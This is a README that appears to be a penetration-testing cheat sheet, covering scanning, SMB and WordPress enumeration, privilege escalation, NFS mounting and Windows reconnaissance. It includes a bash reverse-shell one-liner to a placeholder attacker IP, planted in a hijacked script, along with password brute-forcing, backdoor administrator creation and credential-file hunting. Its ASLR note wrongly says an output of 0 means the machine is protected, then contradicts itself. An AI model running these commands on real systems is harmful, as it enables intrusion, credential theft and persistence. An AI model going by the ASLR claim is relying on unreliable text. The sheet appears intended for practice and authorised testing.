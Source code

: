 # Pentesting

## Common Scans

### Initial, quick port scan

`nmap -vv -sV -sC -oN initial <ip>`

### Slower, complete port scan

`nmap -vv -sV -sC -p- -A -oN full <ip>`

### SMB

#### Finds SMB Vulnerabilities

`nmap -sC -sV -p<port> <ip> --script=smb-vuln*`

#### Enumerates SMB

`smbclient -L \\\\<ip>\\ -N`

### Directories

#### Gobuster directories scan (using wordlist)
`gobuster dir -e -u <ip> -w <path_to_wordlist>`

## SUID Bit Escalation

`find / -perm -u=s -type f 2>/dev/null`

`getcap -r / 2>/dev/null`

Once you have found different programs and SUID bits to be exploited, you can find default steps to spawn shells and other things at this website: https://gtfobins.github.io/

## Shell Upgrading

Once you have a reverse shell on a machine with python (or python3) available, you can try running these commands to upgrade the shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Lateral Movement

### Hijacking a writable script
if the victim runs this, a shell with their privileges is generated. (assuming the attacker is listening at `IP:PORT`)
```bash
bash -i &>/dev/tcp/<IP>/<PORT> 0>&1
```

## Enumerate Writable Folders
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## Hydra Password Brute Force

`hydra -l username -p passwordlist.txt <target>`

## See running crobjobs
`cat /etc/crontab`

## Wordpress Scans

### Enumerates Users

`wpscan --url <ip>/<directory> -e u`

### Brute Forces Passwords

`wpscan --url <ip>/<directory> --passwords <password_list> --username <user>`

## SMB Commands

### List Network Shares

`smbclient -L <ip>`

### Connect To Share

`smbclient \\\\<ip>\\<share_name>`

## BinExp Code Execution

### check for ASLR status
`cat /proc/sys/kernel/randomize_va_space`

- if this outputs `0`, the machine is protected against binary exploits.
- if Address Space Layout Randomization (ASLR) is disabled, then the memory addresses
  of key system data is not randomized.
  - As such, a binary exploit would be able to run arbitrary code.
- resouce: https://www.exploit-db.com/docs/english/17914-bypassing-aslrdep.pdf

- to disable ASLR: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
- src: https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization


## NFS Exploit

### 1. Check to see if there are any folders running on the machine that indicate they can be mounted to.
`showmount -e <ip>`

```
Export list for 10.10.60.230:
/srv/nfs *
```
The star indicates that anyone can mount to this folder. If that was not true, there would be a list of IPs that were allowed to mount to it.

### 2. Make a temp directory to mount to the filesystem.
`mkdir /tmp/infosec`

### 3. Mount to that directory and see what is inside, and if you can upload files.
`sudo mount -t nfs <ip>:/<directory> /tmp/infosec`

## Windows

### Get Current User Privileges
`whoami /priv`

### List Users
`net users`

### List User Information
`net user <username>`

### List Listening Ports
`netstat -ano`

### List Other Logged-In Users
`qwinsta`

`query session`

### List User Groups
`net localgroup`

### List Users In Group
`net localgroup <groupname>`

### Get OS Name and Version
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

### List System Updates
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Add user to machine and give administrator permissions
`net user <username> <password> /add`

`net localgroup administrators <username> /add`

## Notes
### Directories To Enumerate (Windows)
* `C:\Program Files\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
* `C:\xampp\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
